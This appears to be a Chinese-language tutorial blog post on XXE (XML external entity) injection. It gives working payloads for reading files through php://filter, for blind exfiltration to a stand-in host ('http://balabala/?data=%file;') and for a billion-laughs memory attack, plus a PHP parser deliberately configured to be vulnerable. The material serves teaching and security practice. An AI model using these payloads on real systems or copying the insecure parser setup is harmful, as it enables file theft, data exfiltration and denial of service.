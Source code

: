 <div>{%- include extensions/netease-cloud-music.html id='1997850' -%}</div>
XXE(XML External Entity Injection) 全称为 XML 外部实体注入，从名字就能看出来，这是一个注入漏洞，注入的是什么？XML外部实体。

利用点是 **外部实体** ，也是提醒读者将注意力集中于外部实体中，而不要被 XML 中其他的一些名字相似的东西扰乱了思维(**盯好外部实体就行了**)

### 如何声明一个外部实体

```dtd
<!ENTITY entity-name SYSTEM "URI/URL">
```

example:

```xml-dtd
DTD 实例:

<!ENTITY writer SYSTEM "file:///c:/test.dtd">
<!ENTITY copyright SYSTEM "php://filter/read=convert.base64-encode/recource=index.php">

XML example:

<author>&writer;&copyright;</author>
```

#### 外部实体两大派别:

**1.通用实体**

用 &实体名; 引用的实体，他在DTD 中定义，在 XML 文档中引用

**2.参数实体：**

(1)使用 `% 实体名`(**这里面空格不能少**) 在 DTD 中定义，并且**只能在 DTD 中使用 `%实体名;` 引用**
(2)只有在 DTD 文件中，参数实体的声明才能引用其他实体
(3)和通用实体一样，参数实体也可以外部引用

传统艺能标准玩法：（有回显的xxe）

```xml-dtd
<?xml version="1.0"?> 
<!DOCTYPE root[
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=./sql.php">]>
<root>
 <xxe>&xxe;</xxe>
 <flag>233333</flag>
</root>
```



case one:

如果被读取文件含有大量<> & 之类的东西

远程开dtd解决此问题

<![CDATA[what you wanna get]]>

```php
<?php
    $xmldata = '<?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE roottag [
    <!ENTITY % start "<![CDATA[">   
    <!ENTITY % goodies SYSTEM "file:///Users/cengsiqi/Desktop/xxe/1.txt">  
    <!ENTITY % end "]]>">  
    <!ENTITY % dtd SYSTEM "http://127.0.0.1:8080/1.dtd"> 
    %dtd; ]> 
    
    <roottag>&all;</roottag>';

    libxml_disable_entity_loader (false);
    $dom = new DOMDocument();
    $dom->loadXML($xmldata, LIBXML_NOENT | LIBXML_DTDLOAD); 
    $creds = simplexml_import_dom($dom);
    echo $creds;
?>
```

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!DOCTYPE roottag [
<!ENTITY % start "<![CDATA[">   
<!ENTITY % body SYSTEM "file:///d:/wp.txt">  
<!ENTITY % end "]]>">  
<!ENTITY % dtd SYSTEM "file:///d:/key.dtd"> 
%dtd; ]> 

<roottag>&all;</roottag>
```

```dtd
<?xml version="1.0" encoding="UTF-8"?> 
<!ENTITY all "%start;%body;%end;">
\\key.dtd
```

blind xxe:

通过外带书记通道传输数据：

```xml-dtd
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./wp.txt">
<!ENTITY % dtd SYSTEM "file://d:/key.dtd">
%dtd;
%send;
]>
```

key.dtd

```dtd-xml
<?xml version="1.0" encoding="UTF-8"?>
<!ENTITY &#x25; send SYSTEM 'http://balabala/?data=%file;'>"
>
```

花式玩法：(看了没敢试

“有机会试试看”)

dos攻击

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
  <!ENTITY lol "lol">
  <!ENTITY lol2 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
  <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
  <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
  <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
  <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
  <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
  <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
  <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

递归玩法挤爆内存